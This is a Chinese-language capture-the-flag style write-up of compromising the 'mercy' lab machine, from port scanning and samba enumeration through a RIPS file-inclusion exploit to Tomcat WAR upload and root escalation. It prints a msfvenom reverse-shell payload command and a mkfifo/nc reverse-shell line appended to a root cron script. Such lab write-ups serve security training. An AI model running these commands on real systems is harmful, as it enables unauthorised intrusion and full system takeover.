mercy靶机实战

<!-- more -->

# 信息搜集

 首先进行网络发现，扫描192.168.23.0网段下所有存活主机并获取开放端口。



靶机ip为192.168.23.158，开放了一系列端口。奇怪的是，常用的22和80端口被防火墙阻挡了，无法访问。猜测可能有敲门机制什么的。注意到有个8080端口开放访问，这是http代理端口，先从这里看起。另外，还注意到有445端口，这是samba服务，同样作为一个可能的攻击方向。



8080端口提示服务器安装了tomcat服务，但是没有获取到什么信息，只知道有两个webapp，但是需要用户名密码验证。现在暂时有点束手无策，那么就dirb爆破一下目录，看看有没有什么新的东西。

找到了一个robots.txt，访问发现禁止爬虫访问/tryharder/tryharder。我们访问一下。



一串base64。解码一下，指令：

```bash
echo "base64" | base64 -d
```

提示有一个用户的密码是password，需要获取用户名。联想到前面还有samba服务，我们对samba服务进行一下枚举。

```bash
enum4linux -a 192.168.23.158
```



告诉我们靶机有4个用户。看一下文件共享情况。

```bash
smbclient \\\\192.168.23.158\\qiu -U qiu
```

需要登录，用password作为密码，成功登录。



看一下当前目录信息，注意到.private文件夹，继续探索。



有这些文件和目录。继续探索

opensesame里有config文件，get下来

`get config`

然后查看，是敲门口令，给了一个敲门顺序。

那就敲一下。

```bash
knock 192.168.23.158 159 27391 4 -v
```

然后再nmap一下，80端口就开放了。

访问192.168.23.158，没什么有用的信息。

继续目录爆破

有一个robots.txt，访问。

禁止爬虫访问了两个路径：/mercy和/nomercy。逐个访问

/mercy目录没有什么有用的信息，看看nomercy。

是一个rips服务，版本号为0.53。看一下有没有可利用的漏洞。

```bash
searchsploit rips 0.53
```

了解到有一个文件包含漏洞，来看一下如何实现。

```bash
searchsploit -m php/webapps/18660.txt
```

了解到我们需要访问/rips/windows/code.php，有一个file参数可以复现该漏洞。

加到url上。因为rips被改为了nomercy，同样地把PoC中的rips改为nomercy



复现成功。

前面tomcat的It works页面提示用户配置文件在/etc/tomcat7/tomcat-users.xml中。我们利用这个漏洞访问一下。



找到了两个用户：thisisasuperduperlonguser和fluffy，同时知道了这两个用户的密码。

# 渗透

回到8080端口，然后以thisisasuperduperlonguser的身份登录manager服务。

找到了个文件上传点，用msfvenom做一个反弹shell挂上去。

```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.23.159 LPORT=8888 -f war -o  8888.war
```

然后看一下要访问的jsp

```bash
7z l 8888.war
```



然后上传并部署。



部署好了，准备nc监听。

```bash
nc -lvnp 8888
```

然后访问jsp，成功反弹，写个交互

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

拿到shell，看看有没有sudo权限。

`sudo -l`要求输入密码，不知道，放弃。

联想到前面还有一个fluffy用户，切换到那个用户上看看。

`su fluffy`

密码是freakishfluffybunny，这是 在前面文件包含那里获取到的fluffy用户的密码。

登录成功，再尝试sudo -l

输入密码，发现用户sudo被禁用了。

那就回家目录，看看有无什么有用信息。

找到家目录下有个隐藏文件夹.private，里面有个定时服务，权限为777，而且执行权限是root。我们可以在这里挂个反弹shell来获取root权限。

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 192.168.23.159 8888 >/tmp/f" >> timeclock
```

另一边，挂个监听

```bash
nc -lvnp 8888
```

需要稍微等一小会才能监听到。



成功提权。
